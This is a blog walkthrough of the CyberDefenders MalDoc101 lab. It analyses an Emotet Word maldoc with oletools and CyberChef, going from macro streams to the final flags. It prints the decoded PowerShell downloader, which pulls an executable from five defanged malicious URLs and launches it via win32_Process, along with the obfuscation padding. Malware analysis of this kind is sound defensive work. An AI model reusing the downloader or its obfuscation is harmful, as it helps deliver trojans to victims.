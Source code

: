 ```yaml
---
layout: post
author: remotephone
title:  "CyberDefenders.org - Maldoc101 Walkthrough"
date:   2021-04-12 23:40:00 -0600
categories: lab homelab malware malware workflow
---
```


# Another go at CyberDefenders.org 

Having another go at a [CyberDefenders](https://cyberdefenders.org/) challenge, this one about maldocs. You can find a link to the challenge [here](https://cyberdefenders.org/labs/51).

## Environment

I did this through Windows Subsystem for Linux 2. I already have that environment installed and working, but any linux environment should give you a very similar path to follow what I did. 

I also grabbed [oletools](https://github.com/decalage2/oletools) as this is the king of the maldoc analyzers. My install process followed the instructions on his page (slightly modified) to `pip3 install oletools --user` and I also separately grabbed oledump from [here](https://blog.didierstevens.com/programs/oledump-py/) as it wasn't included. Simply wget and unzipped it to my temporary working directory, which made a mess, but we only have one file we're working with so who's counting? 


## Some notes

I appreciate them renaming this file to sample.bin so someone doesn't accidentally maldoc themselves. I am also just generally impressed at the experience on this site. Just sign up, go to a lab, and start plugging away. I'm currently downloading a 27gig macos forensics image and I'm surprised no one's charging me. 

## Question 1: What streams contain macros in this document? 

To know what they're asking for here, it helps to be familiar with the structure of the file. Yet again, back at Didier Steven's excellent documentation for info on that [here](https://olefile.readthedocs.io/en/latest/OLE_Overview.html). 

His description is as follows:

~~~
An OLE file can be seen as a mini file system or a Zip archive: It contains streams of data that look like files embedded within the OLE file. Each stream has a name. For example, the main stream of a MS Word document containing its text is named “WordDocument”.

An OLE file can also contain storages. A storage is a folder that contains streams or other storages. For example, a MS Word document with VBA macros has a storage called “Macros”.

Special streams can contain properties. A property is a specific value that can be used to store information such as the metadata of a document (title, author, creation date, etc). Property stream names usually start with the character ‘\x05’ (ASCII code 5).
~~~

Ok that makes sense. Let's oledump the file. This is the truncated output

~~~bash
computer@computer: ~/gits/MalDoc101
$ python oledump.py sample.bin                                                                               [22:50:23]
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7119 '1Table'
  5:    101483 'Data'
  6:       581 'Macros/PROJECT'
  7:       119 'Macros/PROJECTwm'
  8:     12997 'Macros/VBA/_VBA_PROJECT'
  9:      2112 'Macros/VBA/__SRP_0'
 10:       190 'Macros/VBA/__SRP_1'
 11:       532 'Macros/VBA/__SRP_2'
 12:       156 'Macros/VBA/__SRP_3'
 13: M    1367 'Macros/VBA/diakzouxchouz'
 14:       908 'Macros/VBA/dir'
 15: M    5705 'Macros/VBA/govwiahtoozfaid'
 16: m    1187 'Macros/VBA/roubhaol'
<SNIP>
 ~~~

We can see 3 streams identified with M for macro i guess. We submit 13,15,16 and get our first flag.

## Question 2: What event is used to begin the execution of the macros?	

We can use olevba to break down this document in a way we can digest very easily. I pipe it to less because there is a lot of output and its good to start from the top. Right away, we see the function that's guilty, `Document_open`

~~~bash
olevba 0.56.1 on Python 3.8.5 - http://decalage.info/python/oletools
===============================================================================
FILE: sample.bin
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO diakzouxchouz.cls
in file: sample.bin - OLE stream: 'Macros/VBA/diakzouxchouz'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub _
Document_open()
boaxvoebxiotqueb
End Sub
~~~

You can read more about that [here](https://docs.microsoft.com/en-us/office/vba/api/word.document.open) before submitting the flag. 

## Question #3: Identify the malware family

We can get a hash of the file and see if Virustotal has seen it yet, it should be pretty quick if it has.

https://www.virustotal.com/gui/file/d50d98dcc8b7043cb5c38c3de36a2ad62b293704e3cf23b0cd7450174df53fee/detection

Luck would have it, its already been uploaded, and this is Emotet. 

## Question 4: What stream is responsible for the storage of the base64-encoded string?	

This one was honestly a guess for me. I tried olevba'ing it, I could see content was flagged as base64 encoded in the function `roubhaol` but I couldn't find the exact stream. I oledump'ed the file again and reviewed the output

~~~bash
 31:       110 'Macros/roubhaol/i09/i12/\x01CompObj'
 32:        40 'Macros/roubhaol/i09/i12/f'
 33:         0 'Macros/roubhaol/i09/i12/o'
 34:     15164 'Macros/roubhaol/i09/o'
 35:        48 'Macros/roubhaol/i09/x'
 36:       444 'Macros/roubhaol/o'
~~~

My guess here was the biggest section must have it, so 34 is your flag. 

## Question 5: This document contains a user-form. Provide the name?	

Here, we can oledir the file to see all the parts of it, and browse it as a directory structure. 

computer@computer: ~/gits/MalDoc101
$ oledir sample.bin                                                                                          [23:10:11]
oledir 0.54 - http://decalage.info/python/oletools
OLE directory entries in file sample.bin:
----+------+-------+----------------------+-----+-----+-----+--------+------
id  |Status|Type   |Name                  |Left |Right|Child|1st Sect|Size
----+------+-------+----------------------+-----+-----+-----+--------+------
0   |<Used>|Root   |Root Entry            |-    |-    |3    |F3      |10112
1   |<Used>|Stream |Data                  |-    |-    |-    |8       |101483
2   |<Used>|Stream |1Table                |1    |-    |-    |CF      |7119
<SNIP SNIP>
12  |    govwiahtoozfaid         |5705  |
11  |    roubhaol                |1187  |
17  |  roubhaol                  |-     |
41  |    \x01CompObj             |97    |
42  |    \x03VBFrame             |292   |
18  |    f                       |510   |
20  |    i05                     |-     |6E182020-F460-11CE-9BCD-00AA00608E01
    |                            |      |Forms.Frame
23  |      \x01CompObj           |112   |
21  |      f                     |44    |
22  |      o                     |0     |
24  |    i07                     |-     |6E182020-F460-11CE-9BCD-00AA00608E01
    |                            |      |Forms.Frame
27  |      \x01CompObj           |112   |
25  |      f                     |44    |
26  |      o                     |0     |
28  |    i09                     |-     |46E31370-3F7A-11CE-BED6-00AA00611080
    |                            |      |Forms.MultiPage
<SNIP SNIP>
~~~

Here, we can clearly see that `roubhaol` again is the interesting part of the document, and that is our flag. The Forms.Frame and Forms.Multipage are indicators of the user form being present.

## Question 6: This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?	

Review the Suspicious string, this is a snippet of it. 

~~~bash
�p2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fqh2342772g3&*gs7712ffvs626fqeL2342772g3&*gs7712ffvs626fqL2342772g3&*gs7712ffvs626fq 2342772g3&*gs7712ffvs626fq-2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fq JABsAG2342772g3&*gs7712ffvs626fqkAZQBj2342772g3&*gs7712ffvs626fqAGgAcg2342772g3&*gs7712ffvs626fqBvAHUA2342772g3&*gs7712ffvs626fqaAB3AH2342772g3&*gs7712ffvs626fqUAdwA92342772g3&*gs7712ffvs626fqACcAdg2342772g3&*gs7712ffvs626fqB1AGEA2342772g3&*gs7712ffvs626fqYwBkAG2342772g3&*gs7712ffvs626fq8AdQB22342772g3&*gs7712ffvs626fqAGMAaQ2342772g3&*gs7712ffvs626fqBvAHgA2342772g3&*gs7712ffvs626fqaABhAG2342772g3&*gs7712ffvs626fq8AbAAn2342772g3
~~~

What string do we see repeating? It's difficult to get it visually, but since we less'ed the output of olevba, we can search for the string. I know that `42772g3&` is going to be part of it, so if I start from the top of the doc and search down, we can see where that padding is split from the text.

~~~bash
feaxgeip = Split(geutyoeytiestheug, "2342772g3&*gs7712ffvs626fq")
~~~

## Question 7: What is the purpose of the base64 encoded string?	

These are always hard for me because I don't know exactly what the question wants. We can run the doc through `olevba sample.bin --reveal -a` which will give us the output we can work with, then take the very large text block that starts with `p2342772g3&*gs7...` and get that into cyber chef to deobfuscate it. This [recipe](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Simple%20string','string':'2342772g3%26*gs7712ffvs626fq'%7D,'',true,false,false,false)) will remove the padding, 

Finally, this [recipe](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Simple%20string','string':'2342772g3%26*gs7712ffvs626fq'%7D,'',true,false,false,false)Find_/_Replace(%7B'option':'Regex','string':'powersheLL%20-e%20'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true)Remove_null_bytes()) will clean up the script, remove the `powersheLL -e` from the beginning, and decode the base64.

To know you're deobfuscating the correct string, it should start with `p234` and end with `fvs626fqA=`.

The flag ends up being the first word of the depadded script, powershell. 

## Question 8: What WMI class is used to create the process to launch the trojan?	

Now that we have the deobfuscated script, it should look something like this (I changed every instance of http or https to hxxp or hxxps):

~~~bash
$liechrouhwuw='vuacdouvcioxhaol';[Net.ServicePointManager]::"SE`cuRiTy`PRO`ToC`ol" = 'tls12, tls11, tls';$deichbeudreir = '337';$quoadgoijveum='duuvmoezhaitgoh';$toehfethxohbaey=$env:userprofile+'\'+$deichbeudreir+'.exe';$sienteed='quainquachloaz';$reusthoas=.('n'+'ew-ob'+'ject') nEt.weBclIenT;$jacleewyiqu='hxxps://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*hxxps://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*hxxp://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*hxxp://holfve.se/images/1ckw5mj49w_2k11px_d/*hxxp://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);$seccierdeeth='duuzyeawpuaqu';foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);$buhxeuh='doeydeidquaijleuc';If ((.('Get-'+'Ite'+'m') $toehfethxohbaey)."l`eNGTH" -ge 24751) {([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);$quoodteeh='jiafruuzlaolthoic';break;$chigchienteiqu='yoowveihniej'}}catch{}}$toizluulfier='foqulevcaoj'
~~~

We can pretty easily see the wmiclass `win32_Process` and that's our next flag. 

## Question 9: Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.	

We can see above pretty easily the first domain, `haoqunkong[.]com`. Submit it without the square brackets and we're done. 

## OK that's it, again

Good stuff yet again. I am enjoying the exercises and it's nice to keep sharp on this stuff. Free form answers are sometimes tricky with investigative questions, but usually its pretty obvious. I used the first hint (the ones that dont take any points away) a few times, but they usually didn't give me anything I could work with. Trial and error is your friend sometimes. Thanks for reading.